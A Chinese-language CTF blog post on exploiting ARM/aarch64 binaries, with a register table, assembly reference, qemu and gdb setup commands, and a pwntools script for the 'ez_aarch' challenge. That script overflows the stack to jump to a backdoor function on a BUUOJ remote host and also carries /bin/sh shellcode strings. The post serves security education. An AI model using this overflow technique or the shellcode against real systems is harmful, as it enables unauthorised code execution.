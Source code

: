 ```yaml
---
title: arm异构总结
date: 2022-04-15 22:54:59 +0800
categories:
  - 漏洞利用总结
tags:
  - pwn
  - ctf
permalink: /posts/id=11/
pin: false
published:
---
```

参考文章：

[ ARM架构的pwn题详解___lifanxin的博客](https://blog.csdn.net/A951860555/article/details/116780827)

## Arm/aarch64

aarch64寄存器

| 寄存器  | 位数  | 描述                                                         |
| ------- | :---: | :----------------------------------------------------------- |
| x0-x30  | 64bit | 通用寄存器，如果有需要可以当做32bit使用：WO-W30              |
| FP(x29) | 64bit | 保存栈帧地址(栈底指针)                                       |
| LR(x30) | 64bit | 通常称X30为程序链接寄存器，保存子程序结束后需要执行的下一条指令，**类ret** |
| SP      | 64bit | 保存栈指针,使用 SP/WSP来进行对SP寄存器的访问。               |
| PC      | 64bit | 程序计数器，俗称PC指针，总是指向即将要执行的下一条指令,在arm64中，软件是不能改写PC寄存器的。 |
| CPSR    | 64bit | 状态寄存器                                                   |

![img](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/1117042-e3fabfec65c187f5.png)

```
MOV    X1，X0         ;将寄存器X0的值传送到寄存器X1
ADD    X0，X1，X2     ;寄存器X1和X2的值相加后传送到X0
SUB    X0，X1，X2     ;寄存器X1和X2的值相减后传送到X0

AND    X0，X0，#0xF    ; X0的值与0xF相位与后的值传送到X0
ORR    X0，X0，#9      ; X0的值与9相位或后的值传送到X0
EOR    X0，X0，#0xF    ; X0的值与0xF相异或后的值传送到X0

LDR    X5，[X6，#0x08]        ；ld：load; X6寄存器加0x08的和的地址值内的数据传送到X5
LDP  x29, x30, [sp, #0x10]    ; ldp :load pair ; 一对寄存器, 从内存读取数据到寄存器

STR X0, [SP, #0x8]         ；st:store,str:往内存中写数据（偏移值为正）; X0寄存器的数据传送到SP+0x8地址值指向的存储空间
STUR   w0, [x29, #-0x8]   ;往内存中写数据（偏移值为负）
STP  x29, x30, [sp, #0x10]    ;store pair，存放一对数据, 入栈指令

CBZ  ;比较（Compare），如果结果为零（Zero）就转移（只能跳到后面的指令）
CBNZ ;比较，如果结果非零（Non Zero）就转移（只能跳到后面的指令）
CMP  ;比较指令，相当于SUBS，影响程序状态寄存器CPSR 

B   ;跳转指令，可带条件跳转与cmp配合使用
BL  ;带返回的跳转指令， 返回地址保存到LR（X30）
BLR  ; 带返回的跳转指令，跳转到指令后边跟随寄存器中保存的地址(例：blr    x8 ;跳转到x8保存的地址中去执行)
RET   ;子程序返回指令，返回地址默认保存在LR（X30）
```

详细的汇编建议看这篇[(12条消息) 关于ARM处理器指令集_朽木自雕i的博客-CSDN博客_arm处理器指令](https://blog.csdn.net/qq_45385706/article/details/108478867)

## 做题脚本(以ciscn2021channel为例)

静态编译直接运行

```bash
$ qemu-arm prog
```

动态编译可以用脚本配置

```bash
# pwnarm.sh
$ mkdir lib
$ mv ld-2.31.so ./lib/ld-linux-aarch64.so.1
$ mv libc-2.31.so ./lib/libc.so.6
$ ./qemu-aarch64-static -L ./ ./channel
```

```bash
# dbg
$ file channel
$ set architecture aarch64
$ target remote localhost:1236
```

运行exp后，开新终端使用gdb-multiarch -x dbg

## ez_aarch(aarch64)

![image-20220521214823484](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214823484.png)

![image-20220521214918961](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214918961.png)

![image-20220521214932381](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214932381.png)

题目有后门函数，直接栈溢出覆盖ret

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='aarch64', os='linux')
context.log_level = 'debug'
p=remote("node4.buuoj.cn","26246")
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./stack".split())
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ -g 1236 ./stack".split())
elf = ELF("./stack")
# libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
system = 0x400000093c

sla("Please leave your name:",'a'*0x28+p64(system))
p.interactive()
```

## channel(UAF)

[2021ciscn pwn/misc 复现](https://blog.e4l4.com/posts/ciscn_2021复现/#channelarm架构堆uaf)